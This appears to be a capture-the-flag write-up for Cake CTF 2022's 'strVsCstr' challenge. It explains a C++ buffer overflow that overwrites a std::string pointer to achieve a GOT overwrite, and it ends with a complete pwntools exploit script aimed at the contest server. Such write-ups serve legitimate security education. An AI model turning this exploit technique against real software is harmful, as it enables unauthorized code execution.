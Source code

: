 ```yaml
---
layout: post
readtime: true
tags: [got-overwrite,partial-relro,cpp,string,pwn]
---
```

### Attachments : [chall](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/chall) , [main.cpp](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/main.cpp)
<br>

So, this was an interesting challenge on CPP pwn from Cake CTF. This was the first time I tried my hands on cpp pwning. 

First of all, let's have a look on the security features
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Partial RELRO and No PIE! Interesting.

Analyzing the source code of this challenge, we can easily spot a buffer overflow. 
```cpp

struct Test{

char* c_str() { return _c_str; }
...
private:
    char _c_str[0x20];
    std::string _str;
}

...
case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;
```
So, the program is reading data into `_c_str` without any size check which can be used to cause a buffer overflow. 

Now, let's drop the binary in gdb and add some random data.

<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_1.png"/>


<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_2.png"/>

Interesting. It is clear that `std::string` is stored in the heap and a pointer to that chunk is stored at `0x7fffffffdd20`, just after the buffer `_c_str`. User data will be read into that chunk whenever `std::cin>>test.str();` is called. We can use the buffer overflow on `_c_str` to replace the pointer to a heap chunk with a GOT address. After that, calling `std::cin>>test.str();` would read user supplied data into that particular GOT address. One suitable GOT entry is `_ZStlsIcSt11char_trait@GLIBCXX_3.4.21` i.e `0x404040`. This will be executed whenever `std::cout << "str: " << test.str() << std::endl;` is called i.e option 4.
Now, let's perform a GOT overwrite to make the pointer at `0x404040` point to `Test::call_me` i.e `0x4016de`.

```py
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF("./chall")
# p = elf.process()
# gdb.attach(p)
# 
p = remote("pwn1.2022.cakectf.com",9003)

def set_str(data):
	p.sendlineafter("choice: ","3")
	p.sendlineafter("str: ",data)

def set_cstr(data):
	p.sendlineafter("choice: ","1")
	p.sendlineafter("c_str: ",data)

def get_str():
	p.sendlineafter("choice: ","2")
	return p.recvline()[:-1]

def get_cstr():
	p.sendlineafter("choice: ","4")
	return p.recvline()[:-1]


set_str('0'*20)
set_cstr(b'a'*32+p64(0x404040))
set_str(p64(0x00000000004016de))
p.sendline('4')
p.interactive()
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_3.png"/>

### References
<a href="https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732">https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732</a>
<br>
<a href="https://www.slideshare.net/AngelBoy1/pwning-in-c-basic">https://www.slideshare.net/AngelBoy1/pwning-in-c-basic</a>
